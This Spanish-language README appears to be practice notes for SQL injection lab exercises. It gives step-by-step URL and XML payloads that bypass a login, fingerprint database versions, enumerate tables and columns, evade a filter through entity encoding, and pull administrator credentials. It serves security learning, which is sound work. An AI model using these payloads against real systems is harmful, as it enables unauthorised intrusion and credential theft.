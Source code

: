 # Prácticas de Web Hacking

## SQL Injection

Este repositorio contiene ejemplos prácticos de vulnerabilidades de inyección SQL y cómo explotarlas. A continuación, se describen los procedimientos para cada tipo de ataque.

---

### 1. SQL Injection en la cláusula WHERE para recuperar datos ocultos

1. Accede a una categoría en la aplicación web.
2. Modifica la URL cambiando la categoría por la cadena: `'+OR+1=1--`.
3. Accede a la URL modificada.

---

### 2. SQL Injection para bypass de login

1. Haz clic en "My account".
2. Inicia sesión usando el usuario: `administrator'--`.
3. En el campo de contraseña, ingresa cualquier valor.
4. Haz clic en "Log in".

---

### 3. SQL Injection para consultar el tipo y versión de la base de datos en Oracle

1. Accede a una categoría en la aplicación web.
2. Modifica la URL cambiando la categoría por la cadena: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`.
3. Accede a la URL modificada.

---

### 4. SQL Injection con bypass de filtros mediante codificación XML

1. Abre las herramientas de desarrollo (F12).
2. Ve a la pestaña "Network".
3. Haz clic en los detalles de un producto.
4. Haz clic en "Check stock".
5. Copia la petición que recupera el stock como `fetch`.
6. Ve a la pestaña "Console".
7. Pega la petición.
8. Modifica el contenido de la etiqueta `storeId` por:
   ```xml
   &#x31;&#x20;&#x55;&#x4E;&#x49;&#x4F;&#x4E;&#x20;&#x53;&#x45;&#x4C;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6E;&#x61;&#x6D;&#x65;&#x20;&#x7C;&#x7C;&#x27;&#x7E;&#x27;&#x20;&#x7C;&#x7C;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6F;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4F;&#x4D;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;
   ```
9. Ejecuta la petición.
10. Usa las credenciales que muestra el `response` para iniciar sesión como administrador.

---

### 5. SQL Injection para consultar el tipo y versión de la base de datos en MySQL y Microsoft

1. Accede a la categoría "Gifts".
2. Agrega a la URL la siguiente cadena:
   ```
   %27%20UNION%20SELECT%20%40%40version,%20%27def%27%20%23
   ```
3. Accede a la URL modificada.

---

### 6. SQL Injection para listar el contenido de la base de datos en bases no-Oracle

1. Accede a la categoría "Pets".
2. Agrega a la URL la siguiente cadena:
   ```
   '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
   ```
3. Accede a la URL modificada para ver las tablas existentes.
4. Encuentra la tabla objetivo (por ejemplo, `users_kkyhth`).
5. Modifica la URL agregando la siguiente cadena:
   ```
   '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_kkyhth'--
   ```
6. Accede a la URL modificada para ver las columnas de la tabla.
7. Encuentra las columnas de credenciales (por ejemplo, `username_lgajcw` y `password_ckilco`).
8. Modifica la URL agregando la siguiente cadena:
   ```
   %27+UNION+SELECT+username_lgajcw,+password_ckilco+FROM+users_kkyhth--
   ```
9. Usa las credenciales del administrador para iniciar sesión.

---

### 7. SQL Injection para listar el contenido de la base de datos en Oracle

1. **Determina el número de columnas y su tipo**:
   Usa la siguiente carga útil en el parámetro `category`:
   ```sql
   '+UNION+SELECT+'abc','def'+FROM+dual--
   ```
2. **Recupera la lista de tablas**:
   Usa la siguiente carga útil:
   ```sql
   '+UNION+SELECT+table_name,NULL+FROM+all_tables--
   ```
3. **Encuentra la tabla de credenciales**.
4. **Recupera los detalles de las columnas**:
   Usa la siguiente carga útil (reemplaza `USERS_ABCDEF` con el nombre de la tabla):
   ```sql
   '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
   ```
5. **Encuentra las columnas de nombres de usuario y contraseñas**.
6. **Recupera las credenciales**:
   Usa la siguiente carga útil (reemplaza los nombres de la tabla y las columnas):
   ```sql
   '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
   ```

